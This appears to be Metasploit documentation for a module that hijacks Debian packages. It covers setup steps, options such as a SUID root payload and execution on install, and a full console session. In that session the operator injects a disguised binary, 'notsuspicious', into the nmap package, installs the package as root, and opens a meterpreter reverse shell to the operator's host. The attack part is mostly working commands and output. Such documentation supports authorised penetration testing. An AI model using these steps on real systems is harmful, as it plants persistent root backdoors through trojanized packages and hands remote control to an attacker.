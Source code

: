 ## Vulnerable Application

This module exploits the widespread lack of per-package signing
in the Debian package ecosystem. Most `.deb` files are vulnerable
to manipulation if read-write access is available. By injecting a
payload into the package we can gain execution as the root user.
Custom dependencies can also be specified, allowing us to install
additional software. This module can be run with a handler, but it
is not enabled by default.

The exploit module was authored by:

- Andrew Vanderbilt @ Vander Security (Original PoC)
- Nick Cottrell <Rad10Logic> (PoC Additions)

## Verification Steps

 1. Start msfconsole
 2. Get a root session
 3. `use exploit/linux/fileformat/debian_package_hijacker`
 4. `set SESSION <id>`
 5. `set PACKAGE <package_name>` # should be either path to local package or name of apt package
 6. `set DEPENDENCIES <extra_dependencies>`
 7. `set INSTALL_PACKAGE true`
 8. `set DisablePayloadHandler false`
 9. `set ExecuteOnInstall true`
10. `exploit -z`
11. Ensure you have a 2nd root session


## Options

The module provides several configurable options:

- `PACKAGE` (required): The absolute file path to the Debian package
to hijack.

- `INSTALL_PACKAGE` (optional): If set to true, the module will
attempt to install the newly infected package, reinstalling the
package if necessary. Default is `false`.

- `DEPENDENCIES` (optional): Package dependencies to inject into
control file. Separate multiple dependencies with a comma (`,`), e
g., `depends1,depends2`.

- `PAYLOAD_DESTINATION` (optional): Determines where the binary will
be stored. This option is only available when `TARGET` is set to
`Linux dropper`.

- `SUID_PAYLOAD` (optional): If set to true, the payload will have
the SUID bit set so anyone running it will be root. Default is
`true`. This option is only available when `TARGET` is set to
`Linux dropper`.

There are also some advanced options:

- `WritableDir` (required): A directory where temporary files can be
written, default is `/tmp/`.

- `ExecuteOnInstall` (optional): If set to true, the payload will be
executed during installation. Default is `false`. This option is only
available when `TARGET` is set to `Linux dropper`.

## Scenarios

```
msf6 > use exploit/linux/fileformat/debian_package_hijacker
[*] Using configured payload cmd/linux/http/x64/meterpreter/reverse_tcp
msf6 exploit(linux/fileformat/debian_package_hijacker) > set session 6 
session => 6
msf6 exploit(linux/fileformat/debian_package_hijacker) > set verbose true 
verbose => true
msf6 exploit(linux/fileformat/debian_package_hijacker) > set package nmap
package => nmap
msf6 exploit(linux/fileformat/debian_package_hijacker) > set install_package true 
install_package => true
msf6 exploit(linux/fileformat/debian_package_hijacker) > set payload linux/x64/meterpreter/reverse_tcp 
payload => linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/fileformat/debian_package_hijacker) > set lhost vboxnet0 
lhost => 192.168.56.1
msf6 exploit(linux/fileformat/debian_package_hijacker) > set AllowNoCleanup true 
AllowNoCleanup => true
msf6 exploit(linux/fileformat/debian_package_hijacker) > run

[+] Session confirms it's Debian.
[*] Could not find deb file in PACKAGE path
[+] Found PACKAGE as apt package
[*] Working directory: /tmp/.icfpw36j
[*] postinst_file: /tmp/.icfpw36j/extracted/DEBIAN/postinst.
[*] control_file: /tmp/.icfpw36j/extracted/DEBIAN/control.
[*] Creating directory /tmp/.icfpw36j
[*] /tmp/.icfpw36j created
[*] Could not find package on system, but found it in apt
[*] Package: nmap_7.91+dfsg1+really7.80+dfsg1-2_amd64.deb
[*] Adding /usr/local/bin/notsuspicious to package
[*] Creating directory /tmp/.icfpw36j/extracted/usr
[*] /tmp/.icfpw36j/extracted/usr created
[*] Creating directory /tmp/.icfpw36j/extracted/usr/local
[*] /tmp/.icfpw36j/extracted/usr/local created
[*] Creating directory /tmp/.icfpw36j/extracted/usr/local/bin
[*] /tmp/.icfpw36j/extracted/usr/local/bin created
[*] Generated payload file at usr/local/bin/notsuspicious
[*] Set new binary to proper permissions
[*] New binary digest [b20b40c1ea21325f5dd4431d2a8a446d]
[*] Added new hash to sums
[*] Installing infected package
[*] Running command: apt install -y ./nmap_7.91+dfsg1+really7.80+dfsg1-2_amd64.deb
[*] 
WARNING: apt does not have a stable CLI interface. Use with caution in scripts.

Reading package lists...
Building dependency tree...
Reading state information...
The following additional packages will be installed:
  liblinear4 nmap-common
Suggested packages:
  liblinear-tools liblinear-dev ncat ndiff zenmap
The following NEW packages will be installed:
  liblinear4 nmap nmap-common
0 upgraded, 3 newly installed, 0 to remove and 0 not upgraded.
Need to get 4060 kB/5960 kB of archives.
After this operation, 25.9 MB of additional disk space will be used.
Get:1 /home/radmin/nmap_7.91+dfsg1+really7.80+dfsg1-2_amd64.deb nmap amd64 7.91+dfsg1+really7.80+dfsg1-2 [1899 kB]
Get:2 http://deb.debian.org/debian bullseye/main amd64 liblinear4 amd64 2.3.0+dfsg-5 [43.6 kB]
Get:3 http://deb.debian.org/debian bullseye/main amd64 nmap-common all 7.91+dfsg1+really7.80+dfsg1-2 [4017 kB]
debconf: unable to initialize frontend: Dialog
debconf: (TERM is not set, so the dialog frontend is not usable.)
debconf: falling back to frontend: Readline
debconf: unable to initialize frontend: Readline
debconf: (This frontend requires a controlling tty.)
debconf: falling back to frontend: Teletype
dpkg-preconfigure: unable to re-open stdin: 
Fetched 4060 kB in 1s (6302 kB/s)
Selecting previously unselected package liblinear4:amd64.
(Reading database ... 261904 files and directories currently installed.)
Preparing to unpack .../liblinear4_2.3.0+dfsg-5_amd64.deb ...
Unpacking liblinear4:amd64 (2.3.0+dfsg-5) ...
Selecting previously unselected package nmap-common.
Preparing to unpack .../nmap-common_7.91+dfsg1+really7.80+dfsg1-2_all.deb ...
Unpacking nmap-common (7.91+dfsg1+really7.80+dfsg1-2) ...
Selecting previously unselected package nmap.
Preparing to unpack .../nmap_7.91+dfsg1+really7.80+dfsg1-2_amd64.deb ...
Unpacking nmap (7.91+dfsg1+really7.80+dfsg1-2) ...
Setting up liblinear4:amd64 (2.3.0+dfsg-5) ...
Setting up nmap-common (7.91+dfsg1+really7.80+dfsg1-2) ...
Setting up nmap (7.91+dfsg1+really7.80+dfsg1-2) ...
Processing triggers for man-db (2.9.4-2) ...
[*] Package installed. Marking downloaded package for deletion.
msf6 exploit(linux/fileformat/debian_package_hijacker) > use payload/linux/x64/meterpreter/reverse_tcp 
msf6 payload(linux/x64/meterpreter/reverse_tcp) > set lhost vboxnet0 
lhost => 192.168.56.1
msf6 payload(linux/x64/meterpreter/reverse_tcp) > exploit -z
[*] Payload Handler Started as Job 3
msf6 payload(linux/x64/meterpreter/reverse_tcp) > 
[*] Started reverse TCP handler on 192.168.56.1:4444 
sessions -i 6 -c /usr/local/bin/notsuspicious
[*] Running '/usr/local/bin/notsuspicious' on meterpreter session 6 (192.168.56.126)
[*] Sending stage (3045348 bytes) to 192.168.56.126
[*] Meterpreter session 7 opened (192.168.56.1:4444 -> 192.168.56.126:37788) at 2023-07-17 16:40:37 -0400
[*] This is CredCollect, I have the conn!
```
